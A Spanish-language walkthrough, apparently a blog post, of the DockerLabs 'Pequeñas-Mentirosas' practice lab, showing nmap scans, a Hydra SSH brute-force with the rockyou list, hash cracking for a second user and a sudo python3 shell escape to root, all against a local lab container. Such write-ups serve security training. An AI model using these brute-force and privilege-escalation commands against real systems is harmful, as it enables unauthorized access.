 ```yaml
---
title: DockerLabs - Pequeñas-Mentirosas
summary: "Write-up del laboratorio Pequeñas-Mentirosas de DockerLabs"
author: elcybercurioso
date: 2025-10-28 12:00
categories: [Post, DockerLabs]
tags: [fácil, weak credentiales, credentials leaking, sudo]
media_subpath: "/assets/img/posts/dockerlabs_pequenas_mentirosas"
image:
  path: main.webp
published: true
---
```


## nmap

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs]
└─$ nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 22:47 GMT
Initiating ARP Ping Scan at 22:47
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 22:47, 0.08s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 22:47
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 22:47, 10.13s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up (0.000040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.41 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs]
└─$ nmap -sCV -p22,80 172.17.0.2                                
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 22:48 GMT
Nmap scan report for consolelog.lab (172.17.0.2)
Host is up (0.000056s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 9e:10:58:a5:1a:42:9d:be:e5:19:d1:2e:79:9c:ce:21 (ECDSA)
|_  256 6b:a3:a8:84:e0:33:57:fc:44:49:69:41:7d:d3:c9:92 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.12 seconds
```
## análisis

En la pagina inicial del puerto 80 de la maquina nos encontramos con el siguiente mensaje, el cual nos da una pista de que es lo que debemos buscar:

![Desktop View](/20251027234902.webp){: width="972" height="589" .shadow}

Lo primero que intentamos es ver si a lo que se refieren con la pista es que debemos buscar un parámetro que, si le pasamos el carácter `a`, obtendríamos un resultado que nos permitiría seguir. Sin embargo, nos damos cuenta de que este no es el caso.

Por ello, lo siguiente es ver si `a` se trata de un usuario o una contraseña de SSH, que en este caso encontramos que se trata de un usuario:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs]
└─$ hydra -l a -P /usr/share/seclists/Passwords/rockyou.txt ssh://172.17.0.2 -t 64 -I
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-27 22:53:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: a   password: secret
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 23 final worker threads did not complete until end.
[ERROR] 23 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-27 22:53:51
```

Nos conectamos con las credenciales obtenidas:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs]
└─$ ssh a@172.17.0.2                                                     
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:k21i9gNka9bAHgFRx7TjoBoqirDbAkhw/dp9dfTXRRs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
a@172.17.0.2's password: 
Linux 94ac483a3277 6.16.8+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.16.8-1kali1 (2025-09-24) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
a@94ac483a3277:~$ whoami
a
```

Buscamos los ficheros que somos capaces de leer con el usuario actual, filtrando por lo que no nos interesa. De esta manera, encontramos algunos ficheros interesantes en la carpeta `/srv/ftp`:

```bash
a@94ac483a3277:/home$ find / -readable 2>/dev/null | grep -vE '/usr/share/zone|/proc|/sys/devices|/usr/include|/usr|/dev|/etc|/sys|/var|/run'
/
/home
/home/a
/home/a/.profile
/home/a/.bash_logout
/home/a/.bashrc
/home/spencer
/home/spencer/.profile
/home/spencer/.bash_logout
/home/spencer/.bashrc
/opt
/opt/challenges
/opt/scripts
/boot
/media
/tmp
/mnt
/srv
/srv/ftp
/srv/ftp/pista_fuerza_bruta.txt
/srv/ftp/cifrado_aes.enc
/srv/ftp/clave_publica.pem
/srv/ftp/hash_a.txt
/srv/ftp/mensaje_hash.txt
/srv/ftp/original_a.txt
/srv/ftp/mensaje_rsa.enc
/srv/ftp/retos.txt
/srv/ftp/hash_spencer.txt
/srv/ftp/retos_asimetrico.txt
/srv/ftp/clave_privada.pem
/srv/ftp/clave_aes.txt
/bin
/lib64
/lib
/sbin
/.dockerenv
/lib32
```

Los revisamos todos, y el que parece que puede servirnos es el `/srv/ftp/hash_spencer.txt`, ya que si obtenemos la contraseña del usuario `spencer`, podemos movernos lateralmente:

```bash
a@94ac483a3277:/home$ cat /srv/ftp/pista_fuerza_bruta.txt
Realiza un ataque de fuerza bruta para descubrir la contraseña de spencer...
a@94ac483a3277:/home$ cat /srv/ftp/mensaje_hash.txt
Descubre el hash y tendrás la clave...
a@94ac483a3277:/home$ cat /srv/ftp/cifrado_aes.enc
�a@94ac483a3277:/home$ cat /srv/ftp/clave_publica.pem
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEArIk9pr+wSqiRQX/U29k0
kLYyLXlos5Phs7WyZK9LfDz/uBOCTBhBTMGjK5Op21Z9pszXJ6mgoreF/AW+xjTn
XDCh16kaIcACmp1nFOLn09snpk2s1h4cVJygGZmkHQg5rNMPdfn0rRmmnvgGCmim
oaubWuXYLn4Tu8GdRyAAj4P9hkZUMAQu9k1SpLRSIyVlcSisK/vBys8O05rZsZOg
0I7u2d+BuRYA8Px0qnxH1evx+Y3+oerN4823T6Vd+FqmfEHb7QUQ0EAZfJN3CFth
k9z7Q+AODqM5l8kYH2tEXk3xKQPo5qZlc6ep1tIHTERk3m0xEtE8LH157mkzbeli
VQIDAQAB
-----END PUBLIC KEY-----
a@94ac483a3277:/home$ cat /srv/ftp/hash_spencer.txt
7c6a****************************
```

Accedemos a [crackstation.net](https://crackstation.net) para ver si el hash pertenece a una contraseña conocida:

![Desktop View](/20251028000253.webp){: width="972" height="589" .shadow}

Con la credencial recién obtenida, probamos a conectarnos como `spencer`:

```bash
a@94ac483a3277:/home$ su spencer
Password: 
spencer@94ac483a3277:/home$ whoami
spencer
```

## escalada de privilegios

Revisamos los permisos SUDO del usuario `spencer`, y vemos que podemos ejecutar `python3` como el usuario `root`:

```bash
spencer@94ac483a3277:/home$ sudo -l
Matching Defaults entries for spencer on 94ac483a3277:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User spencer may run the following commands on 94ac483a3277:
    (ALL) NOPASSWD: /usr/bin/python3
```

En [GTFOBins](https://gtfobins.github.io/gtfobins/python/#sudo) nos indican que podemos obtener una consola como el usuario `root` cuando tengamos permiso SUDO sobre `python`:

![Desktop View](/20251028000546.webp){: width="972" height="589" .shadow}

Ejecutamos el comando indicado, y ya tendríamos la consola como el usuario `root`:

```bash
spencer@94ac483a3277:/home$ sudo python3 -c 'import os; os.system("/bin/sh")'
# whoami
root
```

<a href="https://www.buymeacoffee.com/elcybercurioso" target="_blank"><img src="https://img.buymeacoffee.com/button-api/?text=Buy+me+a+coffee&emoji=&slug=elcybercurioso&button_colour=FFDD00&font_colour=000000&font_family=Cookie&outline_colour=000000&coffee_colour=ffffff" alt="buymecoffee_icon" /></a>

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="zweilosec" data-description="Support me on Buy me a coffee!" data-message="Gracias por tu visita! Un café me da las fuerzas para continuar!" data-color="#FFDD00" data-position="Right" data-x_margin="18" data-y_margin="18"></script>